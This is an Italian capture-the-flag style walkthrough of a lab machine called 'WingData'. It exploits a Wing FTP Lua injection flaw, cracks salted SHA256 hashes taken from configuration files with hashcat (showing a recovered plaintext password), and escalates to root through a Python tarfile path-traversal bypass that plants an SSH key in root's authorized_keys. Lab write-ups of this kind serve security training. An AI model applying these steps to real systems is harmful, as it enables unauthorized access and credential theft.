# **WingData**

## Reconnaissance





- OpenSSH v9.2p1 sulla porta 22/tcp
- Server Apache v2.4.66 sulla porta 80/tcp

Si aggiorna il file /etc/hosts:

    10.129.2.208 wingdata.htb


Si aggiunge al file /etc/hosts il sotto dominio appena trovato:

    10.129.2.208 wingdata.htb ftp.wingdata.htb



- Wing FTP Server v7.4.3

## CVE-2025-47812

Wing FTP < v7.4.4 sono vulnerabili ad attacchi di tipo RCE che permettono ad un utente autenticato di iniettare codice Lua tramite una richiesta di login e di eseguirlo con il caricamento della sessione.

Credenziali valide:
- anonymous:''



Si utilizza la PoC [4m3rr0r/CVE-2025-47812-poc](https://github.com/4m3rr0r/CVE-2025-47812-poc).



## Data exfiltration

Si collezionano informazioni sul sistema:



- **wacky** ha accesso alla shell





Le credenziali ricavate da alcuni file di configurazione:

```
admin:a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba
wacky:32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca
maria:a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03
steve:5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca
john:c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10
anonymous:d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca
```

## Password Cracking

Da [Wing FTP Server Help > Domain > Domain Settings > General Settings > Password & Security](https://www.wftpserver.com/help/ftpserver/) si indica che la cifratura delle password si usa SHA256 con un salt specificato nelle configurazioni:



- salt: WingFTP

Da [Wing FTP Server Help > Advanced Feature > Server Lua API > User and Group](https://www.wftpserver.com/help/ftpserver/) si ha che si utilizza SHA256(Password+SaltString) per la cifratura delle password.

```
admin:a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba:WingFTP
wacky:32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP
maria:a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03:WingFTP
steve:5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca:WingFTP
john:c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10:WingFTP
anonymous:d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca:WingFTP
```

```bash
$ hashcat -a 0 -m 1410 --username creds_salted.txt /usr/share/wordlists/rockyou.txt.gz --show

wacky:!#7Blushing^*Bride5
anonymous:
```

Si ottengono delle credenziali per il portale Wing FTP.

## Password Reuse



Le credenziali di wacky per il portale Wing FTP sono anche valide per l'accesso con SSH.

Si ottiene la user.txt.

## Privilege Escalation





- Python v3.12.3

`/opt/backup_clients/restore_backup_clients.py`

```python
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    #...

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    # ...

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()
```

Il codice permette di estrarre il contenuto di un archivio TAR. 

**Nessuna validazione del nuovo contenuto da estrarre**.

### CVE-2025-4517 / CVE-2025-4330

Il modulo **tarfile** è utilizzato per l'estrazione di archivi TAR.

Se si utilizza la funzione **tarfile.extractall()** con il parametro **filter="data"** (o anche con il valore **tar**) per l'estrazione di file TAR untrusted, si può arbitrariamente scrivere il file system, oltrepassando la cartella di estrazione.

Python v3.12.3 è vulnerabile a questo attacco dato che permette di bypassare il filtro per il Path Traversal con una catena di symlink.

Si utilizza la PoC [/0xDTC/CVE-2025-4517-tarfile-PATH_MAX-bypass](https://github.com/0xDTC/CVE-2025-4517-tarfile-PATH_MAX-bypass) per la creazione di un file tar "backup_1001.tar" che a seguito dell'estrazione con `restore_backup_clients.py` scriverà in `/root/.ssh/authorized_keys`.

1. Si generano le SSH keys:

    $ ssh-keygen -t ed25519 -f root_key -N ''

2. Si modifica il file CVE-2025-4517.py per il caso d'uso:

    DEST_DIR = "/opt/backup_clients/restored_backups/restore_john"
    DEPTH_TO_ROOT = 4
    TARGET_FILE = "root/.ssh/authorized_keys"
    PAYLOAD = b"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFeqrtHIZYPZT/YkrOIi7pj8G2S89mk1Qcq2OZOM2AC4 ap@parrot\n"
    OUTPUT = "backup_1001.tar"

3. Si genera il file backup_1001.tar e lo si copia nella macchina target:



4. Si esegue il programma vulnerabile per la scrittura in /root:



Si ottiene il file root.txt.
